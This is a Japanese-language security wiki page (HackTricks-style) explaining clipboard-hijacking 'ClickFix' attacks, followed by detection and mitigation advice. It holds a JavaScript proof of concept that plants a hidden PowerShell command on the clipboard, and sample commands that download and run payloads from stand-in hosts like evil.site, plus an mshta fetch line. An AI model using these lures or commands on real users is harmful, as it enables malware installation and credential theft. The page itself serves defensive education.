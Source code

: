 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "自分でコピーしていないものは絶対に貼り付けないこと。" – 古いが今でも有効なアドバイス

## 概要

Clipboard hijacking – 別名 *pastejacking* – は、ユーザーがコマンドを検査せずに日常的にコピー＆ペーストする事実を悪用します。悪意のあるウェブページ（またはElectronやデスクトップアプリケーションなどのJavaScript対応コンテキスト）は、攻撃者が制御するテキストをプログラム的にシステムクリップボードに配置します。被害者は、通常は巧妙に作成されたソーシャルエンジニアリングの指示によって、**Win + R**（実行ダイアログ）、**Win + X**（クイックアクセス / PowerShell）を押すか、ターミナルを開いてクリップボードの内容を*貼り付け*し、任意のコマンドを即座に実行するように促されます。

**ファイルはダウンロードされず、添付ファイルも開かれないため**、この手法は添付ファイル、マクロ、または直接コマンド実行を監視するほとんどのメールおよびウェブコンテンツのセキュリティ制御を回避します。したがって、この攻撃はNetSupport RAT、Latrodectusローダー、またはLumma Stealerなどのコモディティマルウェアファミリーを配信するフィッシングキャンペーンで人気があります。

## JavaScript Proof-of-Concept
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
古いキャンペーンでは `document.execCommand('copy')` が使用されていましたが、新しいものは非同期の **Clipboard API** (`navigator.clipboard.writeText`) に依存しています。

## ClickFix / ClearFake フロー

1. ユーザーがタイポスクワッティングされたか、侵害されたサイト（例: `docusign.sa[.]com`）を訪れます。
2. 注入された **ClearFake** JavaScript が `unsecuredCopyToClipboard()` ヘルパーを呼び出し、静かにBase64エンコードされたPowerShellワンライナーをクリップボードに保存します。
3. HTMLの指示が被害者に次のように伝えます: *“**Win + R** を押し、コマンドを貼り付けてEnterを押して問題を解決してください。”*
4. `powershell.exe` が実行され、正当な実行可能ファイルと悪意のあるDLLを含むアーカイブをダウンロードします（クラシックDLLサイドローディング）。
5. ローダーは追加のステージを復号し、シェルコードを注入し、永続性をインストールします（例: スケジュールされたタスク） – 最終的にNetSupport RAT / Latrodectus / Lumma Stealerを実行します。

### 例 NetSupport RAT チェーン
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (正当なJava WebStart) はそのディレクトリ内で `msvcp140.dll` を検索します。
* 悪意のあるDLLは **GetProcAddress** を使用してAPIを動的に解決し、**curl.exe** を介して2つのバイナリ（`data_3.bin`, `data_4.bin`）をダウンロードし、ローリングXORキー `"https://google.com/"` を使用してそれらを復号化し、最終的なシェルコードを注入し、**client32.exe** (NetSupport RAT) を `C:\ProgramData\SecurityCheck_v1\` に解凍します。

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. **curl.exe**を使用して`la.txt`をダウンロードします。
2. **cscript.exe**内でJScriptダウンローダーを実行します。
3. MSIペイロードを取得 → 署名されたアプリケーションの横に`libcef.dll`をドロップ → DLLサイドローディング → シェルコード → Latrodectus。

### MSHTAを介したLumma Stealer
```
mshta https://iplogger.co/xxxx =+\\xxx
```
**mshta** コールは、`PartyContinued.exe` を取得し、`Boat.pst` (CAB) を抽出し、`extrac32` とファイル連結を通じて `AutoIt3.exe` を再構築し、最終的にブラウザの資格情報を `sumeriavgv.digital` に流出させる `.a3x` スクリプトを実行する隠れた PowerShell スクリプトを起動します。

## 検出とハンティング

ブルーチームは、クリップボード、プロセス作成、およびレジストリのテレメトリを組み合わせて、ペーストジャッキングの悪用を特定できます：

* Windows レジストリ: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` は **Win + R** コマンドの履歴を保持します - 異常な Base64 / 難読化されたエントリを探します。
* セキュリティイベント ID **4688** (プロセス作成) で、`ParentImage` == `explorer.exe` かつ `NewProcessName` が { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` } に含まれる場合。
* イベント ID **4663** は、疑わしい 4688 イベントの直前に `%LocalAppData%\Microsoft\Windows\WinX\` または一時フォルダ内でのファイル作成を示します。
* EDR クリップボードセンサー (存在する場合) – `Clipboard Write` の後に新しい PowerShell プロセスが直ちに続くことを相関させます。

## 緩和策

1. ブラウザの強化 – クリップボードの書き込みアクセスを無効にする (`dom.events.asyncClipboard.clipboardItem` など) またはユーザーのジェスチャーを要求します。
2. セキュリティ意識 – ユーザーに敏感なコマンドを *タイプ* するか、最初にテキストエディタに貼り付けるように教えます。
3. PowerShell 制約付き言語モード / 実行ポリシー + アプリケーションコントロールを使用して、任意のワンライナーをブロックします。
4. ネットワークコントロール – 既知のペーストジャッキングおよびマルウェア C2 ドメインへのアウトバウンドリクエストをブロックします。

## 関連トリック

* **Discord 招待ハイジャック** は、ユーザーを悪意のあるサーバーに誘導した後、同じ ClickFix アプローチを悪用することがよくあります：
{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## 参考文献

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
